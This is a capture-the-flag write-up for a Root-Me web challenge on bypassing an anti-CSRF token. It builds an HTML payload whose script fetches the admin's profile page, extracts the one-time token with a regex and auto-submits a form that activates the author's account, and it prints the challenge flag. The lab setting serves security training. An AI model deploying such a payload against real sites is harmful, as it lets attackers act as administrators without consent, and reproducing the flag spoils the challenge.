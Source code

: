 # CSRF - token bypass

**Point**: 45 Points

## Solution:

This is a  CSRF vulnerability with adding 1 secure layer - **CSRF token** . Get in the page, we see a form: 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159601753-f08b4ef7-75f1-43b3-8b28-3b0c8e0a5aea.png" ></p>

Before "Login", we have to register. Move to "Register" and create an account. For example, in my case, username is `khangtictoc` and password is `123`

Log in this account. Move to "Private" 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159602721-0d988354-cb0f-43bd-ba64-49e8a20feea5.png" ></p>


This section is for activated account. So we could reach that via sending a malicious HTML content to "Contact". 

But how do we achieve this action ? In "Profile", there's a **disable** checkbox and a button "Submit". 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159603119-dc64359d-bb4e-4fb7-bfbd-0114c02b2d94.png" ></p>

Enable the checkbox, in "Dev Tool" (F12) replace `disabled=""` with `checked`. Then click "Submit" button.

```html
<input type="checkbox" name="status" checked>
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159631629-ce07c8ba-5e3f-4b6c-bf37-ed9a7a6b287d.png" ></p>

Only **admin** can do this action. But we could make **administrator** do the activation for us. Move to "Network" section, examine **Request Headers**:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159632033-7ee73905-fbe4-4313-9815-5ab0901ca2d8.png" ></p>

With **Origin** and **Referer** headers, we use form with POST request to send data to bypass this. But there's is another things we should care for.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159632330-9b687a4d-36c1-45d5-8399-97d8929bb325.png" ></p>

The form has a token for anti-CSRF. You may be aware that this token is changed for each time we submit or reload a page again. So we can't use old attack because beside **Cookie**, there's one-time-used token that we didn't know from **admin**.  

Our idea is we'll collect the token as soon as our script is loaded in **admin side**; and then submit it with the form. We just have to write some more **Javascript** code do this task. Constructing an auto-submit form. Copy the given form:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159633736-f00ef5dd-888d-4a4e-ab05-4d2796594167.png" ></p>

Changing `checkbox` as we've done previous. Create payload: 
- Make sure value in **input/type=text** is our **username** 
- Set `action` to "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" for fixed path, we can "POST" data no matters the place(domain) we are
- Add **javascript code** for auto-submit.
- Put the payload in full **HTML format**. The payload 's contained in `<html></html>` and in `<body></body>`

Let's write a 'gadget' code to receive **admin's token.** View the request in "Network" tab. Our request use `GET` method. There're many measures we can create a `GET` request. [Popular way creating http request in JS!](https://www.freecodecamp.org/news/here-is-the-most-popular-ways-to-make-an-http-request-in-javascript-954ce8c95aaa/)

The most convenient way is using AJAX. ( FYI: AJAX supports many **http verbs** like `GET` `PUT` `POST` , ...)

```javascript

            // You can run line-by-line to debug and see the result in "Console" tab
            // Create a "GET" Request  
            var getRequest = new XMLHttpRequest();

            // Little tricky here ! We should set 3rd parameter to "false" value. It means we turn off "asynchronous". 
            //If not, GET request will run seperately and "tokenAdmin" is created before the token's data from the form return; therefore, "tokenAdmin" returns "null"
            getRequest.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);

            // Send it to server.
            getRequest.send();

            // Use regex to get the token from admin; Our token is a hash having a fixed value of 32 characters (256 bits)
            var tokenAdmin = getRequest.response.match(/[qwertyuiopasdfghjklzxcvbnm1234567890]{32}/)[0];

            // Change the value of token in the form to admin'token for submitting
            document.getElementById('token').value = tokenAdmin;
            // Auto submit the form 
            document.getElementById('profile').submit();

```

Combine with the original form we extracted. Our final payload:

Your email: khangtictoc@gmail.com (arbitrary string)

Comment:

```html
<html>
    <body>
        <form id="profile" action="http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" method="post" enctype="multipart/form-data">
            <div>
            <label>Username:</label>
            <input id="username" type="text" name="username" value="khangtictoc">
            </div>
            <br>		
            <div>
            <label>Status:</label>
            <input id="status" type="checkbox" name="status" checked>
            </div>
            <br>
            <input id="token" type="hidden" name="token" value="">
            <button type="submit">Submit</button>
        </form>
        <script>
            // Create a "GET" Request 
            var getRequest = new XMLHttpRequest();
            getRequest.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);

            // Send it to server.
            getRequest.send();

            // Use regex to get the token from admin; Our token is a hash having a fixed value of 32 characters (256 bits)
            var tokenAdmin = getRequest.response.match(/[qwertyuiopasdfghjklzxcvbnm1234567890]{32}/)[0];

            // Change the value of token in the form to admin'token for submitting
            document.getElementById('token').value = tokenAdmin;
            // Auto submit the form 
            document.getElementById('profile').submit();
        </script>
    </body>
</html>
```

Wait for a while for autbot's working. Direct to "Private" section:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159635785-ca8689b6-8d08-4562-90e8-233a98ed7efe.png" ></p>

**NOTE: The flag says that we should use XSS vulnerability to bypass but i don't know how. So, screw it :))**

Flag: **Byp4ss_CSRF_T0k3n-w1th-XSS**
